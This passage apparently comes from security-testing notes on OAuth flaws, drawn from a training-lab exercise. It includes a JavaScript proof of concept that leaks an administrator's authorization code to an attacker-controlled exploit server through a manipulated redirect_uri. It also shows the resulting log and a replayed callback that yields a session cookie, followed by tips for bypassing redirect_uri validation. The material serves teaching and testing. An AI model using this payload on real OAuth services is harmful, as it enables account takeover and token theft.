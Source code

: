 PoC containing a `redirect_url` controlled by the attacker:
```html
<script>
document.location = 'https://oauth-0aea002e04b55c768637b4e102c200a9.oauth-server.net/auth?client_id=kwcs8f4d6j85i7t26hjqe&redirect_uri=https://exploit-0a2700b504fc5ce58660b5a3014b00ab.exploit-server.net/leak&response_type=code&scope=openid%20profile%20email';
</script>
```

Leaked administrator code:
```
10.0.4.92       2023-04-20 15:42:31 +0000 "GET /leak?code=svze7qEtB1chzoupR2xPPt1264BFiPBHlP085n3t5XI HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
```

Sent the secret code to the `/callback` function and obtained a valid session cookie:
```http
GET /oauth-callback?code=svze7qEtB1chzoupR2xPPt1264BFiPBHlP085n3t5XI HTTP/2
Host: 0a1200a904c75c9186bbb696002f00c8.web-security-academy.net


HTTP/2 200 OK
Set-Cookie: session=UzautQP5DWmLraPPTYOpT7HrIpSQ9Jpk; Secure; HttpOnly; SameSite=None
```

Video example: REDACTED: $20,000 OAuth Bounty (FT. Nagli) [^video]

[^video]: [REDACTED: $20,000 OAuth Bounty (FT. Nagli)](https://www.youtube.com/watch?v=VLgB2fDEMVg&ab_channel=NahamSec), youtube.com

## Flawed redirect_uri validation

It is best practice for client applications to provide a whitelist of their genuine callback URIs when registering with the OAuth service. This way, when the OAuth service receives a new request, it can validate the `redirect_uri` parameter against this whitelist. In this case, supplying an external URI will likely result in an error. However, there may still be ways to bypass this validation.

When auditing an OAuth flow, you should try experimenting with the `redirect_uri` parameter to understand how it is being validated.

- [SSRF evasion and bypasses](Server%20Side%20Request%20Forgery%20(SSRF).md#SSRF%20evasion%20and%20bypasses)
- [CORS based attacks](CORS%20based%20attacks.md)
- [Evading Restrictions](Evading%20Restrictions.md)
- [HTTP Parameter Pollution (HPP)](HTTP%20Parameter%20Pollution%20(HPP).md) 

>[!tip]
>It is important to note that you shouldn't limit your testing to just probing the `redirect_uri` parameter in isolation. In the wild, you will often need to experiment with different combinations of changes to several parameters. Sometimes changing one parameter can affect the validation of others. For example, changing the `response_mode` from `query` to `fragment` can sometimes completely alter the parsing of the `redirect_uri`, allowing you to submit URIs that would otherwise be blocked. Likewise, if you notice that the `web_message` response mode is supported, this often allows a wider range of subdomains in the `redirect_uri`.

## Stealing secrets via a proxy page
